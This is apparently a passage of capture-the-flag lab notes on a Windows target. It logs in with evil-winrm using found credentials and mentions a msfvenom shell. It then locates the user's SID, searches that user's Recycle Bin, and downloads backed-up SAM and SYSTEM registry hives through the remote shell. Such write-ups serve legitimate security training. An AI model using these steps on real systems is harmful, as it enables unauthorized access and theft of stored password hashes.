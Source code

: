 Gained initial foothold using `evil-winrm`
```bash
evil-winrm -i 10.10.54.53 -u 'Jareth' -p 'sarah'
```

Also gained another shell by generating `shell.exe` using msfvenom

Running winPEAS.bat on the system gives us user `Jareth`'s SID
`S-1-5-21-1987495829-1628902820-919763334-1001`

SID can also be used to access the target user's Recycle Bin 

`C:\$Recycle.Bin\S-1-5-21-1987495829-1628902820-919763334-1001`

The folder contained the following files:
![[Pasted image 20240814112507.png]]

Copied `sam.bak` and `system.bak` to `C:\Users\Jareth\Documents` and downloaded the files via the `evil-winrm` remote shell 

```
download sam.bak
download system.bak
```

